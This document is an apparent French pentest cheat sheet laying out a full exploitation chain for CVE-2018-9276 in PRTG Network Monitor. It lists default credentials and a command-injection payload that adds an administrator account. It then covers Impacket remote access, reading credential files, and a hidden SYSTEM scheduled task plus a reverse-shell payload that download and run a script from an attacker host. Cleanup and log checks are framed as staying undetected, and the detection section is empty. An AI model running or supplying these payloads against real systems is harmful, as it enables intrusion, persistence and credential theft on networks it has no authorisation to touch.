

Voici le flux d'exploitation pour la **CVE-2018-9276** sur **PRTG Network Monitor**.



## Énumération

### Scan Nmap
```bash
nmap -sV -p- --open -T4 <IP_TARGET>
```

> [!info] 
> Le service **Indy httpd** est fréquemment associé à **PRTG**. Le port par défaut est souvent le **8080**, bien que le **80** ou le **443** soient possibles.

### Identification de version
```bash
curl -s http://<IP>:8080/index.htm -A "Mozilla/5.0 (compatible; MSIE 7.01; Windows NT 5.0)" | grep version
```

## Authentification

### Identifiants par défaut
| Utilisateur | Mot de passe |
| :--- | :--- |
| prtgadmin | prtgadmin |
| prtgadmin | Password123 |

## Exploitation (CVE-2018-9276)

> [!danger] Prérequis : Accès authentifié nécessaire pour l'exploitation
> L'exploitation de cette **Command Injection** nécessite des droits d'accès valides sur l'interface web de **PRTG**.

> [!warning] Danger : La modification des notifications peut impacter la surveillance réseau
> Toute modification dans les paramètres de notification peut interrompre les alertes critiques du système supervisé.

### Injection de commande
1. Accéder à : `Setup` → `Account Settings` → `Notifications`
2. Créer une nouvelle notification.
3. Paramétrer le champ **EXECUTE PROGRAM** avec le fichier `Demo exe notification - outfile.ps1`.
4. Injecter la charge utile dans le champ paramètre :
```bash
test.txt;net user prtgadm1 Pwn3d_by_PRTG! /add;net localgroup administrators prtgadm1 /add
```
5. Cliquer sur **Test** pour déclencher l'exécution.

## Post-Exploitation

### Vérification de l'accès
Utiliser **netexec** (anciennement **crackmapexec**) pour valider les identifiants :
```bash
netexec smb <IP> -u prtgadm1 -p 'Pwn3d_by_PRTG!'
```

### Accès distant
L'accès peut être consolidé via **Wmiexec** ou **Psexec** de la suite **Impacket** :
```bash
wmiexec.py prtgadm1@<IP>
psexec.py prtgadm1@<IP>
```

### Escalade de privilèges locale (si l'utilisateur créé n'est pas admin)
Si l'utilisateur créé ne dispose pas des privilèges administrateur, rechercher des services mal configurés ou des fichiers de configuration contenant des identifiants en clair :
```bash
# Recherche de fichiers de configuration PRTG contenant des mots de passe
type "C:\Program Files (x86)\PRTG Network Monitor\PRTG Configuration.dat" | findstr /i "password"
```

### Persistance post-exploitation
Pour maintenir l'accès, créer une tâche planifiée ou un service persistant :
```bash
schtasks /create /tn "PRTG_Update" /tr "powershell.exe -WindowStyle Hidden -Command IEX(New-Object Net.WebClient).DownloadString('http://<ATTACKER_IP>/shell.ps1')" /sc onlogon /ru SYSTEM
```

### Analyse des logs (Event Logs)
Vérifier les traces laissées dans les journaux d'événements Windows pour anticiper la détection :
```bash
# Vérification des logs de création de processus
wevtutil qe System /q:"*[System[(EventID=4688)]]" /f:text /rd:true /c:10
```

### Exfiltration de données
Exfiltrer les fichiers de configuration contenant les credentials des sondes :
```bash
# Utilisation de certutil pour encoder et exfiltrer via HTTP
certutil -encode "C:\Program Files (x86)\PRTG Network Monitor\PRTG Configuration.dat" config.b64
```

## Reverse Shell

Pour obtenir un shell interactif, héberger un script PowerShell sur la machine attaquante et l'exécuter via le champ paramètre :

```bash
python3 -m http.server 80
```

Charge utile à injecter dans le champ paramètre :
```bash
test.txt; powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://<ATTACKER_IP>/shell.ps1')"
```

## Détection

## Clean-Up

> [!danger] Critique : Toujours effectuer un nettoyage (Clean-up) des comptes créés pour éviter de laisser des traces
> La suppression des comptes créés et la restauration des paramètres de notification sont indispensables pour maintenir la discrétion et l'intégrité du système.

```bash
net user prtgadm1 /delete
```

---
*Sujets liés : [[Enumeration]], [[Reverse Shell]], [[Windows]], [[Wmiexec]], [[Webshells]]*